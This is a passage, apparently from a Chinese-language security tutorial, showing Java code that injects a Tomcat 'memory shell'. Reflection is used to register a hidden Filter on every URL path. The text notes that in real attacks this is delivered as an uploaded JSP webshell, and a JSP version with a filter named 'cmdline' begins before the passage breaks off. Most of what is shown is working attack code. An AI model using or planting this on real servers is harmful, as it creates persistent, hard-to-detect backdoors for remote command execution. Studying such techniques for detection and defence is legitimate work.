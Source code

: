 ```java
                Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                Constructor<?> filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
                FilterMap o1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
                //设置拦截规则
                o1.addURLPattern("/*");//意为根目录下的均拦截
                o1.setFilterName(FilterName);
                o1.setDispatcher(DispatcherType.REQUEST.name());//用户直接访问页面会调用过滤器
                standardContext.addFilterMap(o1);
                //反射获取ApplicationFilterConfig
                Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
                Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
                applicationFilterConfigDeclaredConstructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext,o);
                filterConfigs.put(FilterName, filterConfig);
                response.getWriter().write("Success");
            }

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException{
        this.doPost(request, response);
    }
}
```

在实战中使用的话，一般利用点是上传jsp马。在JSP中如何编写

```java
<%--
    Created by IntelliJ IDEA.
    User: m0re
    Date: 2022/11/30
    Time: 10:29
    To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.Context"%>
<%@ page import="org.apache.catalina.core.ApplicationContext"%>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig"%>
<%@ page import="org.apache.catalina.core.StandardContext"%>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef"%>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap"%>
<%@ page import="javax.servlet.*"%>
<%@ page import="javax.servlet.http.HttpServletRequest"%>
<%@ page import="java.io.IOException"%>
<%@ page import="java.io.InputStream"%>
<%@ page import="java.lang.reflect.Constructor"%>
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.util.Map"%>
<%@ page import="java.util.Scanner"%>
<%
final String FilterName = "cmdline";
ServletContext servletContext = request.getSession().getServletContext();//得到web应用的servletContext
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
```